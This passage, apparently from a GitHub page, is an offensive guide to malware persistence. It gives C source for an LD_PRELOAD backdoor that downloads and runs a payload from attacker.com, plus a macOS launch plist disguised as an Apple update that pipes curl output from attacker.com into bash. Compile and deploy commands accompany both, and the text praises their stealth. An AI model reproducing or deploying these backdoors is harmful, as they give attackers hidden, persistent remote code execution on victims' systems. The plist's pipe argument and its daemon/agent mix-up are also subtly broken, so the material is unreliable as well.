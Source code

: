 
---

3. Linux Persistence: LD_PRELOAD Hijack

This injects a backdoor into every process using LD_PRELOAD.
```C
libbackdoor.c

#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <stdlib.h>

void _init() {
    system("wget http://attacker.com/payload -O /tmp/beacon && chmod +x /tmp/beacon && /tmp/beacon &");
}
```
Compile it:
```bash
gcc -shared -o /lib/x86_64-linux-gnu/libcustom.so -fPIC libbackdoor.c
```
Activate it:
```bash
echo 'export LD_PRELOAD=/lib/x86_64-linux-gnu/libcustom.so' >> ~/.bashrc
source ~/.bashrc
```
✅ Runs inside any process (stealthy)
✅ No need for a cronjob or systemd


---

4. macOS Persistence: Launch Daemon

This runs on startup without showing in ps.

com.apple.update.plist
```xml
<?xml version="1.0" encoding="UTF-8"?>
<plist version="1.0">
<dict>
    <key>Label</key>
    <string>com.apple.update</string>
    <key>ProgramArguments</key>
    <array>
        <string>/usr/bin/curl</string>
        <string>-s</string>
        <string>http://attacker.com/macos_payload</string>
        <string>|</string>
        <string>/bin/bash</string>
    </array>
    <key>RunAtLoad</key>
    <true/>
</dict>
</plist>
```
Deploy it:
```bash
mv com.apple.update.plist ~/Library/LaunchAgents/
launchctl load ~/Library/LaunchAgents/com.apple.update.plist
```
✅ Blends in with system processes
✅ Stealth startup execution
